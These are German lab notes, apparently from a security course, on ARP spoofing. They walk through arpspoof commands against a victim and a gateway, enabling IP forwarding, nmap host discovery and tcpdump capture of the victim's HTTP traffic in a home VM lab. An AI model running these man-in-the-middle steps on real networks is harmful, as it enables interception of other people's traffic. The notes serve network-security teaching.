



ARP ist nicht besonders sicher.

ARP Cache anzeigen

```sh
$ arp -a                    
fritz.box (192.168.178.1) at e0:28:6d:7b:fa:91 [ether] on eth0
# -a BSD style output format
```

Dieses Kommando geht auch unter Windows (Ausgabe sieht anders aus).

ARP Cache Einträge können relativ einfach manipuliert werden.

exploit des ARP Protokolls:

Send 2 ARP Responses: eins zum Gateway und eins zum Victim.



Hacker ist dann man in the middle




## Kali Linux Tool für ARP Spoofing

Schickt einen ARP Response an das Opfer (`10.0.2.7`). Spooft die eigene MAC Adresse mit der IP des Gateways (`10.0.2.1`). 

```sh
$ arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
# arpspoof -i <interface> -t <target-victim-ip> <router-ip>
```

Das Programm wird nicht gleich beendet sondern schickt ständig ARP Responses

Herausfinden des router (=default gateway)

```sh
$ route -n
```

Schickt einen ARP Response an das Gateway. 

Folgendes gaukelt dem Gateway vor wir sind das Opfer:

```sh
$ arpspoof -i eth0 -t 10.0.2.1 10.0.2.7 
```

Nach diesen 2 `arpspoof` Aufrufen sind die ARP Caches vom Opfer und vom Gateway kompromitiert.

Ein Linux System schickt allerdings nicht von Haus aus IP Pakete die nicht an dieses selbst adressiert sind weiter (ist kein Router). Daher  ist noch "IP forwarding" notwendig um den Datentransfer zwischen Victim und Gateway über Hacker weiterzuleiten [[*](https://linuxconfig.org/how-to-turn-on-off-ip-forwarding-in-linux)]:

```sh
# auf Hacker
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Anmerkung: Im Video fehlt `net/` im Pfad.

### Test im Heimnetz:

Windows VM:

```sh
C:\Users\test>arp -a

Schnittstelle: 192.168.178.75 --- 0xc
  Internetadresse       Physische Adresse     Typ
  192.168.178.1         e0-28-6d-7b-fa-91     dynamisch
  192.168.178.255       ff-ff-ff-ff-ff-ff     statisch
  224.0.0.22            01-00-5e-00-00-16     statisch
  224.0.0.251           01-00-5e-00-00-fb     statisch
  224.0.0.252           01-00-5e-00-00-fc     statisch
  239.255.255.250       01-00-5e-7f-ff-fa     statisch
  255.255.255.255       ff-ff-ff-ff-ff-ff     statisch
```

Kali VM:

```sh
$ ifconfig eth0          
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.178.81  netmask 255.255.255.0  broadcast 192.168.178.255
        inet6 2001:871:235:d5dd:36d:b0d0:4386:b64a  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::20c:29ff:fe97:770a  prefixlen 64  scopeid 0x20<link>
        inet6 2001:871:235:d5dd:20c:29ff:fe97:770a  prefixlen 64  scopeid 0x0<global>
        ether 00:0c:29:97:77:0a  txqueuelen 1000  (Ethernet)
        RX packets 17681  bytes 2353152 (2.2 MiB)
        RX errors 0  dropped 9740  overruns 0  frame 0
        TX packets 9303  bytes 980024 (957.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Victim (Windows): `192.168.178.75`

Gateway:  `192.168.178.1`

Hacker (Kali): `192.168.178.81 (00:0c:29:97:77:0a)`

Feststellen der MAC von Windows, z.B. durch einmal anpingen (löst ARP Request aus)

```sh
$ arp -a
fritz.box (192.168.178.1) at e0:28:6d:7b:fa:91 [ether] on eth0
                                                                                                                                                                                 
$ ping 192.168.178.75
PING 192.168.178.75 (192.168.178.75) 56(84) bytes of data.
^C
--- 192.168.178.75 ping statistics ---
4 packets transmitted, 0 received, 100% packet loss, time 3066ms

$ arp -a                                                                                                                                                                   fritz.box (192.168.178.1) at e0:28:6d:7b:fa:91 [ether] on eth0
DESKTOP-KB6QKG7.fritz.box (192.168.178.75) at 00:0c:29:d2:3a:db [ether] on eth0
```

Andere Möglichkeit wäre mit `nmap`:

```sh
$ nmap -sn -PR 192.168.178.75
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-22 11:29 EDT
Nmap scan report for DESKTOP-KB6QKG7.fritz.box (192.168.178.75)
Host is up (0.00054s latency).
MAC Address: 00:0C:29:D2:3A:DB (VMware)
Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
```

Und MAC Adresse des Gateways:

```sh
$ nmap -sn -PR 192.168.178.1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-22 11:31 EDT
Nmap scan report for fritz.box (192.168.178.1)
Host is up (0.0020s latency).
MAC Address: E0:28:6D:7B:FA:91 (AVM Audiovisuelles Marketing und Computersysteme GmbH)
Nmap done: 1 IP address (1 host up) scanned in 0.11 seconds
```

Victim (Windows): `192.168.178.75 (00:0c:29:d2:3a:db)`

Gateway:  `192.168.178.1 (e0:28:6d:7b:fa:91)`

Hacker (Kali): `192.168.178.81 (00:0c:29:97:77:0a)`

```bash
# Victim zu Gateway --> Kali
$ arpspoof -i eth0 -t 192.168.178.75 192.168.178.1

# Gateway zu Victim --> Kali
$ arpspoof -i eth0 -t 192.168.178.1 192.168.178.75

# IP forwarding on
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```


Mit aktivierten Spoofing ARP cache des Victim:

```sh
C:\Users\test>arp -a

Schnittstelle: 192.168.178.75 --- 0xc
  Internetadresse       Physische Adresse     Typ
  192.168.178.1         00-0c-29-97-77-0a     dynamisch
  192.168.178.81        00-0c-29-97-77-0a     dynamisch
```

Beide MAC Adressen sind von Hacker!

Ohne Spoofing:

```sh
C:\Users\test>arp -a

Schnittstelle: 192.168.178.75 --- 0xc
  Internetadresse       Physische Adresse     Typ
  192.168.178.1         e0-28-6d-7b-fa-91     dynamisch
  192.168.178.81        00-0c-29-97-77-0a     dynamisch
```

 Ohne Spoofing: 

Auf Hacker (Kali)

```sh
tcpdump -nA port 80
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes

```

Auf Victim (Windows) im Browser laden: `http://neverssl.com/`

Ergebnis: Ohne aktiviertes Spoofing sieht Hacker (Kali) nicht die Kommunikation

Mit Spoofing

Auf Victim (Windows) im Browser laden: `http://neverssl.com/` (leider ist Content in gzip Format)

Ergebnis (Ausschnitt einer https Kommunikation):

```
2:22:51.171629 IP 192.168.178.75.55104 > 192.168.178.1.80: Flags [S], seq 698903906, win 64240, options [mss 1460,nop,wscale 8,nop,nop,sackOK], length 0
E..4..@.../J...K.....@.P).mb........................
12:22:51.171648 IP 192.168.178.75.55104 > 192.168.178.1.80: Flags [S], seq 698903906, win 64240, options [mss 1460,nop,wscale 8,nop,nop,sackOK], length 0
E..4..@...0J...K.....@.P).mb........................
12:22:51.174195 IP 192.168.178.1.80 > 192.168.178.75.55104: Flags [S.], seq 958881370, ack 698903907, win 29200, options [mss 1460,nop,nop,sackOK,nop,wscale 6], length 0
E..4..@.@.U&.......K.P.@9'^Z).mc..r..6..............
12:22:51.174240 IP 192.168.178.1.80 > 192.168.178.75.55104: Flags [S.], seq 958881370, ack 698903907, win 29200, options [mss 1460,nop,nop,sackOK,nop,wscale 6], length 0
E..4..@.?.V&.......K.P.@9'^Z).mc..r..6..............
12:22:51.175387 IP 192.168.178.75.55104 > 192.168.178.1.80: Flags [.], ack 1, win 1026, length 0
E..(..@.../U...K.....@.P).mc9'^[P.............
12:22:51.175400 IP 192.168.178.75.55104 > 192.168.178.1.80: Flags [.], ack 1, win 1026, length 0
E..(..@...0U...K.....@.P).mc9'^[P.......
12:22:51.175419 IP 192.168.178.75.55104 > 192.168.178.1.80: Flags [P.], seq 1:240, ack 1, win 1026, length 239: HTTP: GET /wpad.dat HTTP/1.1
E.....@....e...K.....@.P).mc9'^[P...;...GET /wpad.dat HTTP/1.1
Host: wpad
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36 Edg/91.0.864.54
Accept-Encoding: gzip, deflate


12:22:51.175426 IP 192.168.178.75.55104 > 192.168.178.1.80: Flags [P.], seq 1:240, ack 1, win 1026, length 239: HTTP: GET /wpad.dat HTTP/1.1
E.....@.../e...K.....@.P).mc9'^[P...;...GET /wpad.dat HTTP/1.1

```

Die Kommunikation wird aufgezeichnet. Achtung auch auf gecachte Seiten.

Auch wenn die Daten verschlüsselt sind, sind manche Informationen trotzdem informativ und manipulierbar.


